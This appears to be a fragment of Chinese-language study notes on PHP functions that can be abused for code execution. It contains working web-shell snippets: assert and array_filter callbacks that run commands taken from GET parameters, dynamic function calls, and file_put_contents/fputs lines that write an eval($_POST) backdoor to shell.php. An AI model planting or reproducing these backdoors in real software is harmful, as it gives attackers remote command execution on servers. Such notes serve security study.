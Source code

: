 
	<?php
	// ?cmd=phpinfo()
	$cmd = $_GET['cmd'];
	$array[0] = $cmd;
	call_user_func_array("assert",$array);
	?>


__array_filter()__

	array_filter — 用回调函数过滤数组中的单元

	array array_filter ( array $array [, callable $callback [, int $flag = 0 ]] )

依次将 array 数组中的每个值传递到 callback 函数。如果 callback 函数返回 true，则 array 数组的当前值会被包含在返回的结果数组中。数组的键名保留不变。

	<?php
	// ?func=system&cmd=whoami
	$cmd = $_GET['cmd'];
	$array1 = array($cmd);
	$func = $_GET['func'];
	array_filter($array1,$func);
	
	?>

__usort()、uasort()__

usort — 使用用户自定义的比较函数对数组中的值进行排序

	bool usort ( array &$array , callable $value_compare_func )

本函数将用用户自定义的比较函数对一个数组中的值进行排序。 如果要排序的数组需要用一种不寻常的标准进行排序，那么应该使用此函数。


__文件操作函数__

	file_put_contents — 将一个字符串写入文件
	　　fputs() 函数写入文件

代码

	<?php
	$test = '<?php  eval($_POST[c]); ?>';
	file_put_contents('shell.php',$test);
	?>



	<?php  fputs(fopen('shell1.php','w'),'<?php eval($_POST[c]);?>') ?>

__动态函数__

PHP函数直接由字符串拼接

	<?php
	//?a=assert&b=phpinfo()
	$_GET['a']($_GET['b']);
	?>


#### PHP 命令执行函数
